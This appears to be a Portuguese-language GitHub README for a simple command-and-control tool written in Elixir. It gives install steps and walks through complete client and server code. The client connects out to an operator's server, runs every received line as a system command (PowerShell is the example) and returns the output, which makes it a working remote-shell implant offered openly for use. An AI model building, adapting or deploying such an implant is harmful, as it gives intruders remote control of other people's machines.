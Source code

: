 # Elixir C2 Client & Server 🟣

Este projeto consiste em um cliente e servidor C2 (Command and Control) escritos em Elixir. O servidor envia comandos para o cliente, que os executa e retorna a saída para o servidor. 

## ⚙️ Funcionalidades

- **Cliente**:
  - Conecta a um servidor especificado.
  - Recebe comandos e os executa.
  - Retorna a saída do comando executado para o servidor.

- **Servidor**:
  - Ouve em uma porta especificada para conexões de clientes.
  - Aceita comandos do usuário e os envia para o cliente.
  - Recebe e exibe a resposta do cliente.

## 🚀 Instalação

1. Clone o repositório:
    ```sh
    git clone https://github.com/baku01/elixir-simple-c2
    ```
2. Navegue até o diretório do projeto:
    ```sh
    cd elixir-simple-c2
    ```
3. Instale as dependências:
    ```sh
    mix deps.get
    ```

## 📝 Uso

### Iniciando o Servidor

Para iniciar o servidor, execute:
```elixir
iex -S mix

ElixirC2Server.start_listening(4000)
```

Isso irá iniciar o servidor na porta `4000`.

### Conectando o Cliente

Em outro terminal, execute:
```elixir
iex -S mix

ElixirC2Client.connect()
```

O cliente irá se conectar ao servidor na porta especificada.

### Enviando Comandos

No terminal do servidor, você pode digitar comandos para enviar ao cliente, por exemplo:
```sh
Digite o comando para enviar ao cliente (ex: powershell dir): 
```

O cliente irá executar o comando e retornar a saída, que será exibida no terminal do servidor.

## 📜 Explicação do Código

### Cliente

O módulo `ElixirC2Client` contém as funções do cliente:

- `connect/0`: Conecta ao servidor e chama `listen_for_commands/1` para aguardar comandos.
    ```elixir
    def connect do
      {:ok, socket} = :gen_tcp.connect(@server_address, @server_port, [:binary, packet: :line, active: false])
      Logger.info("Conectado ao servidor")
      listen_for_commands(socket)
    end
    ```

- `listen_for_commands/1`: Aguarda comandos do servidor e chama `execute_command/2` para executá-los.
    ```elixir
    defp listen_for_commands(socket) do
      case :gen_tcp.recv(socket, 0) do
        {:ok, command} ->
          execute_command(socket, command)
          listen_for_commands(socket)
  
        {:error, reason} ->
          Logger.error("Erro ao receber comando: #{inspect(reason)}")
      end
    end
    ```

- `execute_command/2`: Divide o comando recebido em interpretador e argumentos, e chama `execute/2` para executar o comando.
    ```elixir
    defp execute_command(socket, command) do
      [interpreter | args] = String.split(command)
      output = execute(interpreter, args)
      send_output(socket, output)
    end
    ```

- `execute/2`: Executa o comando usando `System.cmd/2` e retorna a saída.
    ```elixir
    def execute(interpreter, args) do
      {output, _exit_status} = System.cmd(to_string(interpreter), Enum.map(args, &to_string/1))
      output
    end
    ```

- `send_output/2`: Envia a saída do comando de volta para o servidor.
    ```elixir
    defp send_output(socket, output) do
      :gen_tcp.send(socket, output <> "\n")
    end
    ```

### Servidor

O módulo `ElixirC2Server` contém as funções do servidor:

- `start_listening/1`: Inicia o servidor na porta especificada e aceita conexões de clientes.
    ```elixir
    def start_listening(port) do
      {:ok, socket} = :gen_tcp.listen(port, [:binary, packet: :raw, active: false, reuseaddr: true])
      Logger.info(@server_start_msg <> Integer.to_string(port))
      {:ok, client} = :gen_tcp.accept(socket)
      Logger.info("Cliente conectado")
      command_loop(client)
    end
    ```

- `command_loop/1`: Loop principal que aguarda comandos do usuário e os envia para o cliente.
    ```elixir
    defp command_loop(client) do
      command = IO.gets("Digite o comando para enviar ao cliente (ex: powershell dir): ")

      case command do
        :eof ->
          Logger.info("Encerrando servidor.")
          :gen_tcp.close(client)
  
        _ ->
          send_command(client, String.trim(command))
          receive_response(client)
          command_loop(client)
      end
    end
    ```

- `send_command/2`: Envia o comando para o cliente.
    ```elixir
    defp send_command(client, command) do
      :gen_tcp.send(client, command <> "\n")
    end
    ```

- `receive_response/1`: Recebe e exibe a resposta do cliente.
    ```elixir
    defp receive_response(socket) do
      case :gen_tcp.recv(socket, 0) do
        {:ok, response} ->
          Logger.info(@data_received_msg <> response)
  
        {:error, reason} ->
          Logger.error(@data_receive_error_msg <> inspect(reason))
      end
    end
    ```
